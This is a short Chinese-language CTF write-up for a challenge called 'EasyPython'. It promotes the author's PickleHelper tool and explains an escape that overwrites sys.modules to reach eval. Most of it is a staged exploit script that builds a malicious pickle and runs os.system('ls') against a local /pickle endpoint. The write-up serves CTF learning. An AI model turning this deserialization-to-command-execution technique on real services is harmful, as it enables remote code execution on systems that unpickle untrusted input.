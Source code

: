 # EasyPython
首先推荐我写的工具：https://github.com/Sndav/PickleHelper

## 思路
我们可以通过pickle的Build方法覆盖`sys.modules`，从而可以构造出一条获取对象的引用链。

官方具体构造链的方案如下：
`__main__.run.__globals__.__builtins__.__getitem__('eval').__call__("xxxxxx")`

具体Exp如下
```python

from PickleHelper import PickleHelper
import requests

p = PickleHelper()
p.load_class("__main__",'sys')
p.put_memo(0) # # memo[0] = sys

p.push_mark()
p.push_str("'modules'")
p.push_mark()
p.push_str("'__main__'")
p.load_class("__main__",'run')
p.build_dict()
p.build_dict()
p.process_build() # move __main__.run -> __main__

p.load_class("__main__",'__globals__') 
p.put_memo(2) # memo[2] = run.__globals__

# Stage2
p.get_memo(0)
p.push_mark()
p.push_str("'modules'")
p.push_mark()
p.push_str("'__main__'")
p.get_memo(2)
p.build_dict()
p.build_dict()      
p.process_build()
# Stage3
p.push_mark()
p.push_str("'__builtins__'")
p.load_inst("__main__",'__getitem__')
p.put_memo(3)
# Stage4

p.get_memo(0)
p.push_mark()
p.push_str("'modules'")
p.push_mark()
p.push_str("'__main__'")
p.get_memo(3)
p.build_dict()
p.build_dict()
p.process_build()

# Stage5 

p.push_mark()
p.push_str("'eval'")
p.load_inst("__main__",'__getitem__')
p.put_memo(4)

# Stage6
p.get_memo(0)
p.push_mark()
p.push_str("'modules'")

p.push_mark()
p.push_str("'__main__'")
p.get_memo(4)
p.build_dict()

p.build_dict()
p.process_build()
# Stage7
p.push_mark()
p.push_str(""""__import__('os').system('ls')\"""")
p.load_inst("__main__",'__call__')

c = p.compile()
# res
print(requests.get("http://127.0.0.1/pickle",params={"pickle": c}).text)
```